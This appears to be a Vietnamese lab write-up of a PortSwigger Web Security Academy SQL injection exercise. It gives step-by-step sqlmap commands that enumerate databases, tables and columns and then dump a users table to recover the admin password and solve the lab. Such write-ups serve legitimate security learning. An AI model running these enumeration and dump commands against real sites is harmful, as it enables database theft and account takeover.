```sql!
sqlmap -u https://0aab000904533546845efe8600ce00bb.web-security-academy.net/filter?category=Lifestyle  --batch --dbs
```

- mình được 3 database **public**, **pg_catalog**
  và **information_schema**

![ảnh](https://hackmd.io/_uploads/ByQMh9B2T.png)

cùng với đó biết được lab dùng CSDL PostgreSQL và có thể tấn công bằng UNION query

![ảnh](https://hackmd.io/_uploads/r1WZn5Hhp.png)

- mình thấy những bài trước username và password được lưu ơr database public nên mình vào database này và xem các bảng bằng lệnh

```sql!
sqlmap -u https://0a46002c040595ed808f8a72003400c3.web-security-academy.net/filter?category=Accessories  --batch -D public --tables
```

![ảnh](https://hackmd.io/_uploads/S1arpcBnp.png)

- mình được 2 bảng trong đó có **users_ztmdbv**
- mình vào bảng này và thử xem các cột có trường password không bằng lệnh

```sql!
sqlmap -u https://0a46002c040595ed808f8a72003400c3.web-security-academy.net/filter?category=Accessories  --batch -D public -T users_ztmdbv --columns
```

và mình thấy có cột **password_xrknpd**

![ảnh](https://hackmd.io/_uploads/rJ2g05ShT.png)

tiếp theo mình dump bảng này ra và đọc thông tin bằng lệnh

```sql!
sqlmap -u https://0a46002c040595ed808f8a72003400c3.web-security-academy.net/filter?category=Accessories  --batch -D public -T users_ztmdbv --dump
```

![ảnh](https://hackmd.io/_uploads/H1oSCqr2T.png)

mình được password của admin là **2y5kk21figif1nh15wdq**

- đem đi đăng nhập và mình solve được lab này

![ảnh](https://hackmd.io/_uploads/SyOsAcrha.png)

mình xem các bảng trong 2 database còn lại còn lại

```sql!
sqlmap -u https://0a46002c040595ed808f8a72003400c3.web-security-academy.net/filter?category=Accessories  --batch -D pg_catalog --tables
```
